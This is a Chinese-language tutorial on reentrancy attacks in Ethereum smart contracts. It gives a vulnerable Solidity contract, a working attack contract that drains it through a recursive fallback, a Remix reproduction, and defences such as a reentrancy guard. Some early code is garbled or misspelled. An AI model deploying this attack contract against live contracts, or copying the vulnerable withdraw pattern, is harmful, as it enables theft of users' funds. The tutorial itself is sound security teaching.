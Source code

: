 # 重入攻击分析
---

                                                        author：甘赞栩
## 漏洞概述
在以太坊中，智能合约能够调用其他外部合约的代码，由于智能合约可以调用外部合约或者发送以太币，这些操作需要合约提交外部的调用，所以这些合约外部的调用就可以被攻击者利用造成攻击劫持，使得被攻击合约在任意位置重新执行(回调)，绕过原代码中的限制条件，从而发生重入攻击。重入攻击本质上与编程里的递归调用类似，所以当合约将以太币发送到未知地址时就可能会发生。
* **发生条件**
    1. 调用了外部的合约且该合约是不安全的
    2. 外部合约的函数调用早于状态变量的修改

接下来给大家展示的是一个最简单的提款函数：
```
function withdraw(){
  require(msg.sender,call.value(balances[msg.sender])());
  balances[msg.sender]=0;
}
```
这种函数大多存在于钱包、去中心化交易所中，目的是为了让用户提款，将合约中的代币转换成通用的以太币。<br/>

## 漏洞分析
    在进入分析之前，先介绍几个基础知识
* 以太坊常用的转账的方法
    1. transfer()：只会发送 2300 gas 进行调用，当发送失败时会通过 throw 来进行回滚操作，从而防止了重入攻击。
    2. send()：只会发送 2300 gas 进行调用，当发送失败时会返回布尔值 false，从而防止了重入攻击。
    3. gas().call.vale()()：在调用时会发送所有的 gas，当发送失败时会返回布尔值 false，不能有效的防止重入攻击。
* fallback函数
    回退函数 (fallback function)：回退函数是每个合约中有且仅有一个没有名字的函数，并且该函数无参数，无返回值，如下所示：
    ```
    function() public payable{
        ...
    }
    ```
    回退函数在以下几种情况中被执行：
    1. 调用合约时没有匹配到任何一个函数
    2. 没有传数据
    3. 智能合约收到以太币（为了接受以太币，fallback 函数必被标记为 payable）

* 漏洞
    通过我们对fallback函数的了解。
    如果我们构造一个 fallback 函数，函数里面也调用对方的 withdraw 函数的话，那将会产生一个循环调用转账功能，存在漏洞的合约会不断向攻击者合约转账，终止循环结束（以太坊 gas 有上限）
    ![攻击原理](images/Reenter1.png)
    我们先来看一段比较典型的有重入漏洞的合约：
    ```
    pragma solidity ^0.4.19;

    contract Reentrance{
        address _owner;
        mapping (address => uint256) balances;

        function Reentrance(){
            _owner = msg.sender;
        }

        function withdraw(uint256 amount) public payable{
            require(balances[msg.sender] >= amount);
            require(this.balance >= amount);
            // 发送以太
            msg.sender.call.value(amount)();
            // 状态变量修改
            balances[msg.sender] -= amount;
        }

        function deposit() public payable{
            balances[msg.sender] += msg.value;
        }

        function balanceOf(address adre)constant returns(uint256){
            return balances[adre];
        }

        function wallet() constant returns(uint256 result){
            return this.balance;
        }


    }
    ```
    我们来看这个合约的 withdraw 函数，这个函数中的转账操作有一个外部调用（msg.sender.call.value(amount)()），所以我们就可以认为这个合约是可能有重入漏洞的，但是具体能否产生危害还需要更深入的分析：
    * 攻击者思路：
        >1. 所有的外部调用都是不安全的且合约在接收以太的时候会触发 fallback 函数执行相应的逻辑，这是一种隐藏的外部调用，这种隐藏的外部调用是否会造成危害呢？
        >2. 我们可以看到在 withdraw 函数中是先执行外部调用进行转账后才修改用户余额状态变量的，那我们可不可以在转账外部调用的时候构造一个恶意的逻辑合约在合约执行 balance[msg.sender] -= amount 之前一直循环调用 withdraw 函数一直提币从而将合约账户清空呢？
    * 攻击合约：
    ```
    pragma solidity ^0.4.19;
    import"./Reentrance.sol";

    contract ReentranceAttack{
        Reentrance re;
        function ReentranceAttack(address _target) public payable{
            re = Reentrance(_target);
        }

        function wallet()view returns(uint256){
            return this.balance;
        }

        function deposit()public payable {
            re.deposit.value(msg.value)();
        }

        function attack(){
            re.withdraw(1);
        }
        function () public payable {
            if (address(re).balance >= 1 ether){
                re.withdraw(1);
            }
        }

    }
    ```
    * 攻击原理：
        由于受害者合约withdraw函数使用call函数转账，会附加"所有可用gas"，并触发msg.sender的fallback函数。fallback 函数再次调用withdraw函数套利，由于withdraw函数最后一步才减去msg.sender对应的余额并记录导致递归调用withdraw函数require判断都能通过。直到合约中没有可用余额为止。
        类似于对攻击者fallback函数的递归调用
## 漏洞复现
首先用账户(`0x5B38Da6a701c568545dCfcB03FcB875f56beddC4`)模拟受害者，点击depoly开始部署。
![](images/Reenter2.png)
然后将Value改为5，单位改为ether。点击deposit方法
![](images/Reenter3.png)
查看当前账户余额为5ether，存款成功
![](images/Reenter4.png)
创建一个新账户（`0xAb8483F64d9C6d1EcF9b849Ae677dD3315835cb2`）来模拟攻击者，在Deploy处填写漏洞合约地址，部署攻击合约。
![](images/Reenter5.png)
部署成功后，先查看攻击合约的wallet为0
![](images/Reenter6.png)
攻击者先存款 1 ether 到漏洞合约中，这里设置 VALUE 为 1 ether，之后点击攻击合约的 deposit 进行存款。
![](images/Reenter7.png)
再次调用漏洞合约的wallet方法，却发现有了6 ether
![](images/Reenter8.png)
攻击者 (`0xAb8483F64d9C6d1EcF9b849Ae677dD3315835cb2`) 调用攻击合约的 attack 函数模拟攻击，之后调用被攻击合约的 wallet 函数去查看合约的余额，发现已经归零，此时回到攻击合约查看余额，发现被攻击合约中的 6 ether 已经全部提款到了攻击者合约中，这就造成了重入攻击。
![](images/Reenter9.png)

## 漏洞防范
* **加入防重入锁**
    下面是一个防重入锁的例子：
    ```
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.3;

    contract ReEntrancyGuard {
        bool internal locked;

        modifier noReentrant() {
            require(!locked, "No re-entrancy");
            locked = true;
            _; 
        locked = false; 
    }
    }
    ```

* **写代码时需要遵循先判断，后写入变量在进行外部调用的编码规范（Checks-Effects-Interactions）**